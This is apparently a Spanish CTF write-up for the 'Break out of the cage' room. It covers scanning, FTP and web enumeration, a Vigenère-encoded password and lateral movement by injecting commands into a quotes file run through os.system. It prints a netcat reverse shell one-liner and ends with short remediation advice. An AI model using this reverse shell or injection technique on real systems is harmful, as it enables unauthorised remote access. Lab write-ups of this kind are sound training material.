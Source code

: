 # Break out of the cage
## Initial Scan 
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
```
## Enum
### FTP
El login anonimo esta habilitado y podemos ver el siguiente archivo
```
-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
```
Vaya tareas mas raras tiene el padre
```
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds
```
Si lo decodificamos en base64 nos queda lo siguiente:
```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```
Por ahora no sabemos que mas hacerle probamos los rot basicos y nada
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/contracts (Status: 301) <- Archivo diciendo folder not in use
/html (Status: 301) <- vacio
/images (Status: 301)
/scripts (Status: 301)
/auditions (Status: 301) <- Corrupted audio file 
/server-status (Status: 403)
```
Con el arhivo de audio obtenemos una clave en el espectrograma, si usamos esa clave como key de vigenere em el texto de las tasks, con ello obtenemos la clave de Weston para acceder por ssh
## Privesc
Primero nos va a tocar escalar lateralmente hacia cage, curiosamente somos miembros de su grupo 
```
weston@national-treasure:/$ find / -group cage 2> /dev/null
/home/cage
/opt/.dads_scripts
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes
```
Veamos ese script python
```
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```
No podemos editar el script pero si el archivo del que se leen las lineas que serán ejecutadas añadiendo una rev shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.95.54 1234 >/tmp/f
```
Una vez dentro leemos los mails , en el tercero hay una string extraña y la palabra face como 13 veces , el correo viene del root asi que estaría bien mirarlo
```
haiinspsyanileph
```
Con la contraseña del root es facil elevar privilegios

# Analisis de la intrusión
### Sensible information leak 
Esconder creds no es una buena idea en general ni con esteganografia ni con Vigenere
### Insecure Python Script
El script de las quotes puede ser utilizado para desplazarse lateralmente del usuario weston a cage debido a una mala gestión de acceso a archivos

# Soluciones
### Insecure Python Script
La solución para esto es modificar los permisos de acceso del grupo de cage a los mismos que posee el script en python de modo que no se pueda modificar de manera arbitraria
